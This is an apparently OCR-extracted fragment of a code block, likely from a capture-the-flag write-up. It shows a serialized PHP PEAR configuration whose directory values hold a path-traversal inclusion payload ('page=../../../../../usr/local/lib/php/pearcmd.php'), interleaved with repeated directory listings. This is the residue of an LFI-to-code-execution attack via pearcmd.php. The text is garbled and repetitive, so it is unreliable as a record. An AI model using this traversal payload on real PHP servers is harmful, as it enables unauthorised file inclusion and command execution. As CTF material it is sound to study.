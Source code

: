 ```

whysoserious/pear/php";s:8:"data_dir";s:80:"/&page=../../../../../usr/local/lib/php/pearcmd.php&/index.php

main.css

phpinfo.php

whysoserious

whysoserious/pear/data";s:7:"www_dir";s:79:"/&page=../../../../../usr/local/lib/php/pearcmd.php&/index.php

main.css

phpinfo.php

whysoserious

whysoserious/pear/www";s:7:"cfg_dir";s:79:"/&page=../../../../../usr/local/lib/php/pearcmd.php&/index.php

main.css

phpinfo.php

whysoserious

whysoserious/pear/cfg";s:7:"ext_dir";s:79:"/&page=../../../../../usr/local/lib/php/pearcmd.php&/index.php

main.css

phpinfo.php

whysoserious

whysoserious/pear/ext";s:7:"doc_dir";s:80:"/&page=../../../../../usr/local/lib/php/pearcmd.php&/index.php

main.css

phpinfo.php

whysoserious

whysoserious/pear/docs";s:8:"test_dir";s:81:"/&page=../../../../../usr/local/lib/php/pearcmd.php&/index.php

main.css

phpinfo.php

whysoserious

whysoserious/pear/tests";s:9:"cache_dir";s:81:"/&page=../../../../../usr/local/lib/php/pearcmd.php&/index.php

main.css

phpinfo.php

whysoserious
```